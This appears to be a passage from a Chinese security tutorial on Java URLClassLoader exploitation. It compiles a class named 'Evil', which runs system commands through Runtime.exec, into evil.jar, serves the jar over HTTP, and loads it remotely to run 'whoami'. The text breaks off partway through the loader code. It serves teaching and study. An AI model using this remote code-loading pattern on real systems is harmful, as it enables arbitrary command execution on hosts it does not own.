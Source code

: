 
## 利用示例：

编译打包jar：

```
javac Evil.java
jar -cvf evil.jar Evil.class
```

恶意类：

```java
//注意这里可以不使用包名
//

import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStreamReader;

public class Evil {
    String res;

    public Evil() {
    }

    public static String exec(String var0) throws IOException {
        StringBuilder var1 = new StringBuilder();
        BufferedReader var2 = new BufferedReader(new InputStreamReader(Runtime.getRuntime().exec(var0).getInputStream()));

        String var3;
        while((var3 = var2.readLine()) != null) {
            var1.append(var3).append("\n");
        }

        return var1.toString();
    }

    public String toString() {
        return this.res;
    }
}

```

起一个http服务，把jar放上去，保证可以远程请求到

```java
package com.urlclassloader;

import java.io.ByteArrayOutputStream;
import java.io.InputStream;
import java.net.URL;

public class URLClassLoader {

    public static void main(String[] args) {
        try {
            // 定义远程加载的jar路径
            URL url = new URL("http://127.0.0.1/evil.jar");

            // 创建URLClassLoader对象，并加载远程jar包
            java.net.URLClassLoader ucl = new java.net.URLClassLoader(new URL[]{url});

            // 定义需要执行的系统命令
            String cmd = "whoami";
```